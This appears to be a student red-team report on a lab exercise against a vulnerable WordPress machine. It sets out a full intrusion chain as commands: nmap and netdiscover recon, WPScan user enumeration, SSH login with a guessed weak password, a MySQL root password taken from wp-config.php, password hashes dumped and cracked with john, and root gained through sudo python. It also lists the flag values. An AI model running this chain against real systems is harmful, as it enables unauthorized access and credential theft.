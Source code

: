 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Netdiscover results identify the IP addresses of Targets on the network:

```bash
  # netdiscover -r 192.168.1.90
```

![nmap output](Images/netdiscover.png)

Nmap scan results for each machine reveal the below services and OS details:

```bash
  # nmap -sV 192.168.1.110
```

![nmap output](Images/nmap.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp: SSH
  - Port 80/tcp: HTTP
  - Port 111/tcp: RPCbind
  - Port 139/tcp: netbios-ssn
  - Port 445/tcp: netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - User Enumeration (WordPress site)
  - Weak User Password
  - Unsalted User Password Hash (WordPress database)
  - Misconfiguration of User Privileges/Privilege Escalation

---

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

#### Flag 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**:
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `wpscan --url 192.168.1.110/wordpress --enumerate u`

```bash
  # wpscan --url 192.168.1.110/wordpress --enumerate u
```

![wpscan output](Images/wpscan1.png)
![wpscan output](Images/wpscan2.png)

  - Used SSH to gain a user shell.
    - **Command**: `ssh michael@192.168.1.110`
    - **Password**: `michael`

```bash
  # ssh michael@192.168.1.110
```

![ssh output](Images/ssh1.png)

  - Searched directories for for service.html to find Flag 1.
    - **Command**: `cat var/www/html/service.html`

```bash
  # cat var/www/html/service.html
```

  - Screenshot of Flag 1:

![flag 1](Images/flag1.png)

---

#### Flag 2

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Enumerated WordPress site Users with WPScan to obtain username `michael`, used SSH to get user shell.
    - **Command**: `cat var/www/flag2.txt`

```bash
  # cat var/www/flag2.txt
```

  - Screenshot of Flag 2:

![flag 2](Images/flag2.png)

---

#### Flag 3

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Continued using user shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.

  - Finding the MySQL database password:
    - **Command**: `cd /var/www/html/wordpress/`
    - **Command**: `nano wp-config.php`

```bash
  # nano wp-config.php
```

![MySQL DB password](Images/MySQL.png)

  - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - **DB_NAME**:	`wordpress`
    - **DB_USER**:	`root`
    - **DB_PASSWORD**:	`R@v3nSecurity`
    - **Command**: `mysql -u root -pR@v3nSecurity -D wordpress`

```bash
  # mysql -u root -pR@v3nSecurity -D wordpress
```

![MySQL DB Login](Images/MySQL_login.png)

  - Searched MySQL database for Flag 3 and WordPress user password hashes.
    - Flag 3 found in `wp_posts`.
    - Password hashes found in `wp_users`.
    - **Command**: `show tables;`
    - **Command**: `select * from wp_posts;`
    - **Command**: `select * from wp_users;`

  - Screenshot of Flag 3:

![flag 3](Images/flag3.png)

  - Screenshot of WordPress user password hashes:

![password hashes](Images/pwdhashes.png)

---

#### Flag 4

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Used john to crack the password hash obtained from MySQL database, secured new user shell as Steven, escalated to root.

  - Cracking the password hash with john.
    - Copied password hash from MySQL into `~/Desktop/hash.txt` and cracked with john to discover Steven’s password is `pink84`.
    - **Command**: `cd ~/Desktop`
    - **Command**: `john hash.txt`

![john output](Images/john.png)

  - Secure a user shell as the user whose password you cracked.
    - **Command**: `ssh steven@192.168.1.110`
    - **Password**: `pink84`

![ssh output](Images/ssh2.png)

  - Escalating to root:
    - **Command**: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`

```bash
  # sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
```

  - Searched root directory for Flag 4.
    - **Command**: `cd /root/`
    - **Command**: `ls`
    - **Command**: `cat flag4.txt`

  - Screenshot of Flag 4:

![ssh output](Images/flag4.png)